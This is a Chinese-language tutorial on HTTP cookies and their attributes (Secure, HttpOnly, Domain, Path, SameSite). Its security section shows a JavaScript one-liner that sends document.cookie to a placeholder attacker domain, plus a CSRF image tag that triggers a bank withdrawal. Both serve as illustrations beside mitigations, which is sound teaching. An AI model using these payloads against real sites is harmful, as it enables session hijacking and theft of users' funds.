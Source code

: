 # :star:HTTP Cookie
[[toc]]
HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie主要用于以下三个方面：
* 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
* 个性化设置（如用户自定义设置、主题等）
* 浏览器行为跟踪（如跟踪分析用户行为等

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 Web storage API （本地存储和会话存储）或IndexedDB。

## 创建Cookie
当服务器收到HTTP请求时，服务器可以在响应头里面添加一个`Set-Cookie`选项。浏览器收到响应后通常会保存下Cookie，之后对该服务器每一次请求中都通过`Cookie`请求头部将Cookie信息发送给服务器。另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

### Set-Cookie响应头部和Cookie请求头部
服务器使用`Set-Cookie`响应头部向用户代理（一般是浏览器）发送Cookie信息。一个简单的Cookie可能像这样：
```
Set-Cookie: <cookie名>=<cookie值>
```
服务器通过该头部告知客户端保存Cookie信息。   
现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头部再发送给服务器。

### 会话期Cookie
会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。

### 持久性Cookie
和关闭浏览器便失效的会话期Cookie不同，持久性Cookie可以指定一个特定的过期时间（`Expires`）或有效期（`Max-Age`）。

### Cookie的`Secure`和`HttpOnly`标记
标记为`Secure`的`Cookie`只应通过被HTTPS协议加密过的请求发送给服务端。但即便设置了`Secure`标记，敏感信息也不应该通过Cookie传输，因为Cookie有其固有的不安全性，`Secure`标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

为避免跨域脚本 (XSS) 攻击，通过JavaScript的 `Document.cookie` API无法访问带有`HttpOnly`标记的Cookie，它们只应该发送给服务端。如果包含服务端Session信息的 Cookie不想被客户端JavaScript脚本调用，那么就应该为其设置HttpOnly标记。

### Cookie的作用域
`Domain`和`Path`标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。

`Domain`标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置`Domain=mozilla.org`，则Cookie也包含在子域名中（如`developer.mozilla.org`）。

`Path`标识指定了主机下的哪些路径可以接受Cookie（**该URL路径必须存在于请求URL中**）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

例如，设置`Path=/docs`，则以下地址都会匹配：

* `/docs`
* `/docs/Web/`
* `/docs/Web/HTTP`

### `SameSite` Cookies
`SameSite`Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前`SameSite`Cookie还处于实验阶段，并不是所有浏览器都支持。

### JavaScript通过`Document.cookies`访问Cookie
通过`Document.cookie`属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。

请留意在安全节提到的安全隐患问题，JavaScript可以通过跨站脚本攻击（XSS）的方式来窃取Cookie。

## 安全

### 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

对用户输入进行过滤来阻止XSS；
任何敏感操作都需要确认；
用于敏感信息的Cookie只能拥有较短的生命周期；
更多方法可以查看OWASP CSRF prevention cheat sheet。

## 总结
目前下列字段可以被设置在服务端Set-cookie时设置：
  1. Expires：过期时间
  2. Max-Age：有效期时长
  3. Secure：cookie只应通过被HTTPS协议加密过的请求发送给服务端
  4. HttpOnly：Document.cookie API无法访问带有 HttpOnly 标记的Cookie
  5. Domain：标识指定了哪些主机可以接受Cookie
  6. Path：标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）
  7. SameSite：Cookie允许服务器要求某个cookie在跨站请求时不会被发送

参考资料：   
[https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
